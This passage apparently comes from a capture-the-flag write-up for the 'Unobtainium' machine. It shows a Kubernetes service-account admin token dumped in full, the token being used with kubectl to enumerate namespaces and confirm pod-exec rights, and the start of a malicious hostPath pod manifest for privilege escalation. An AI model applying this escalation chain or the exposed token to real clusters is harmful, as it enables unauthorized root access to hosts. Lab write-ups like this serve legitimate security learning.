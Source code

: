   Type:  kubernetes.io/service-account-token

  Data
  ====
  token:      eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
  ca.crt:     1066 bytes
  namespace:  11 bytes


5. The next obvious step forward is to use this admin token to gather more information. Reading on kubernetes.io i find:
  > "When using kubectl, use your id_token with the --token flag or add it directly to your kubeconfig"

To  make the output a bit clearner, lets write the token to a variable and use that instead.
  root@devnode-deployment-cd86fb5c-6ms8d:/tmp# export TOKEN=eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
    <TJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow

Lets try a simple POC if we can gather more information now with the use of the admin token.
Previously we wasn't able to get namespace information, however now we are!
  root@devnode-deployment-cd86fb5c-6ms8d:/tmp# ./kubectl --token=$TOKEN get namespaces
    <6ms8d:/tmp# ./kubectl --token=$TOKEN get namespaces
    NAME              STATUS   AGE
    default           Active   221d
    dev               Active   220d
    kube-node-lease   Active   221d
    kube-public       Active   221d
    kube-system       Active   221d

  root@devnode-deployment-cd86fb5c-6ms8d:/tmp# ./kubectl --token=$TOKEN auth can-i exec pods
    yes

Now we are able to exec pods, which probably means we'll be able to get root.txt.


6. Create an malicious attacker.yaml file to escalate privilege with.

  [root:/git/htb/unobtainium]# cat attacker.yaml                                                                                    (master✱)
    apiVersion: v1
    kind: Pod
    metadata:
      labels:
        run: attacker-pod
      name: attacker-pod
      namespace: default
    spec:
      volumes:
      - name: host-fs
        hostPath: